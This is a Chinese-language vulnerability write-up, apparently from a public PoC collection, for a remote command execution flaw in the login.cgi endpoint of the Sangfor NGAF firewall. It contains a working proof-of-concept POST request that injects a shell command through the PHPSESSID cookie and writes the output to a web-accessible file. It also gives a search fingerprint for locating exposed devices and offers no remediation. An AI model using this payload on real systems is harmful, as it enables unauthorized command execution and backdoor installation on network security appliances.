

# 深信服 NGAF下一代防火墙 login.cgi 远程命令执行漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 login.cgi  路径下，PHPSESSID 处存在命令执行漏洞。攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

## 漏洞影响

<a-checkbox checked>深信服 NGAF下一代防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Redirect.php?url=LogInOut.php"</a-checkbox></br>

## 漏洞复现

登陆页面


验证POC

```plain
POST /cgi-bin/login.cgi HTTP/1.1 
Host: 
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
y-forwarded-for: 127.0.0.1
Cookie: PHPSESSID=`$(id > /fwlib/sys/virus/webui/svpn_html/3.txt)`;

{"opr":"login", "data":{"user": "watchTowr" , "pwd": "watchTowr" , "vericode": "NSLB" , "privacy_enable": "0"}}
```



```plain
/svpn_html/3.txt
```